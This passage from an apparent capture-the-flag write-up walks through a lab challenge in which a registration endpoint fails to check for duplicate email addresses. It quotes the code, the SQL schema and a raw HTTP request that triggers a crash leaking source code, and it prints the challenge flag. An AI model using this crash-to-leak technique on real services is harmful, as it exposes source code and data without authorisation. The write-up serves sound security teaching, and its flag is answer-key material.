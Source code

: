 ```js
    username_taken = (users_found > 0)

    if username_taken:
        return jsonify({'message': 'Username already taken'}), 500
```

As we can see, it will check that the email is valid, it will check that the username is valid and it will check if the username is taken. But it is not looking if the email adress is taken!

Looking at the database located at ```/database/initial.sql```.

```sql
CREATE TABLE User
(
  User_ID SERIAL NOT NULL,
  Email VARCHAR(128) NOT NULL,
  Username VARCHAR(128) NOT NULL,
  Password VARCHAR(128) NOT NULL,
  Blocked INT NOT NULL,
  Bitcoin_Wallet VARCHAR(256) NOT NULL,
  PRIMARY KEY (User_ID),
  UNIQUE (Email),
  UNIQUE (Username)
);
```
As the Email and Username should be "UNIQUE" Maybe we can cause a crash by registering another username with the same email address.

```js
POST /api/register HTTP/1.1
Host: 127.0.0.1:40010
...
Content-Type: application/json

{
    "email":"v0lk3n@mail.com",
    "username":"v0lk3n_second",
    "password":"SuperPassword",
    "bitcoin_wallet":"0x74b5785F8bB5B053A7b6B7490C8Af8FDef880d03"
}
```

![3-Crash](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/880e396f-c275-4d71-858e-af78203adf6e)

Great the crash occure and we got a leaked source code! 

On Burp Suit, switch the response windows in raw mode, and start to look for the flag.

![4-Flag_1](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/513bd26a-c6b2-415c-9694-d3e4e6606bd1)

We got the flag!

FLAG : **byuctf{did_you_stumble_upon_this_flag_by_accident_through_a_dup_email?}**

## urmombotnetdotnet.com - 2<a name="urmom2"></a>
